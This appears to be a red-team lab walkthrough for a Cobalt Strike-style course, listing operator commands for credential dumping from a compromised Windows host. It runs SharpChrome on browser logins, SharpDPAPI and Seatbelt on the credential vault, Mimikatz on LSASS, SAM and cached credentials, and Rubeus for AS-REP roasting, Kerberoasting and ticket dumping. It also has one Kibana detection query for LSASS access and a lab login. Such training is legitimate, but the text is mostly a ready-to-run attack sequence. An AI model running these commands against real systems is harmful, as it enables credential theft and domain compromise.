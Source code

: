 # Kill Chain - Dumping

From the medium-integrity Beacon, read the credentials from Chrome's database.

```batch
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

## Windows Credential Manager <a href="#windows-credential-manager" id="windows-credential-manager"></a>

1.  From the medium-integrity Beacon, enumerate the vault.

    ```batch
    execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
    ```
2.  Decrypt the credentials using RPC to fetch the DPAPI key.

    ```batch
    execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
    ```

## OS Credentials <a href="#os-credentials" id="os-credentials"></a>

Mimikatz is quite a large binary so staging it across DNS can be slow. Use the DNS Beacon running as SYSTEM to spawn a new HTTP Beacon (which allows for much quicker data transfers).

1. spawn x64 http

Then from the new HTTP Beacon running as SYSTEM:

### LSASS Memory <a href="#lsass-memory" id="lsass-memory"></a>

1. Dump NTLM hashes.
   1. `mimikatz sekurlsa::logonpasswords`

### Kerberos Keys <a href="#kerberos-keys" id="kerberos-keys"></a>

1. Dump Kerberos encryption keys.
   1. `mimikatz sekurlsa::ekeys`

### Security Account Manager <a href="#security-account-manager" id="security-account-manager"></a>

1. Dump SAM database.
   1. `mimikatz lsadump::sam`

### Cached Domain Credentials <a href="#cached-domain-credentials" id="cached-domain-credentials"></a>

1. Dump the cached domain logon credentials.
   1. `mimikatz lsadump::cache`

&#x20;

## Elastic <a href="#elastic" id="elastic"></a>

1. Switch to [Kibana](https://labclient.labondemand.com/Instructions/dd029e7a-1af0-4fc4-b877-b70219752eb5) and sign in.
2. Browse to https://lon-elk-1:5601.
3. Log in with elastic : elastic.
4. Expand the menu on the left (the icon with the three horizontal lines).
5. Under **Analytics**, click **Discover**.
6.  In the search box at the top of the page, run the following query:

    ```kql-nocolor
    KQLTypeCopyevent.code: "10" and winlog.event_data.TargetImage: "C:\\Windows\\system32\\lsass.exe"
    ```
7. Review the events that appear.

## Kerberos Tickets <a href="#kerberos-tickets" id="kerberos-tickets"></a>

### AS-REP Roasting <a href="#as-rep-roasting" id="as-rep-roasting"></a>

1.  From the medium-integrity Beacon, use Rubeus to AS-REP roast every account that does not have pre-authentication enabled.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /format:hashcat /nowrap
    ```

### Kerberoasting <a href="#kerberoasting" id="kerberoasting"></a>

1.  From the medium-integrity Beacon, use Rubeus to Kerberoast every user account that has an SPN set.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /format:hashcat /simple
    ```

### Dumping Tickets <a href="#dumping-tickets" id="dumping-tickets"></a>

1.  From the high-integrity Beacon, use Rubeus to triage Kerberos tickets for all users.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
    ```
2.  Use Rubeus to dump the TGT for rsteel.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:[LUID] /service:krbtgt /nowrap
    ```
